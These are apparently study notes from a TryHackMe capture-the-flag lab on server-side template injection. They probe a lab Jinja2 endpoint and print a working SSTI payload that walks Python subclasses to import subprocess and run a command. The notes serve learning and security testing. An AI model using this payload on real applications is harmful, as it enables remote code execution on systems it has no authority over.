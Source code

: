 ![directory contents with hidden files using the -lah argument](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/645b19f5d5848d004ab9c9e2-1716710150525)



### Practical
---

Let's visit:

```
http://ssti.thm:8002/jinja2/
```

We can test:

```jinja2
{{}}
```


![Pasted image 20250505180014.png](../../../IMAGES/Pasted%20image%2020250505180014.png)


![Pasted image 20250505180021.png](../../../IMAGES/Pasted%20image%2020250505180021.png)

Internal server error appeared, this means we are dealing with `jinja2`, we can use the following payload to achieve `rce`:

```jinja2
{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("ls")}}
```

![Pasted image 20250505180105.png](../../../IMAGES/Pasted%20image%2020250505180105.png)

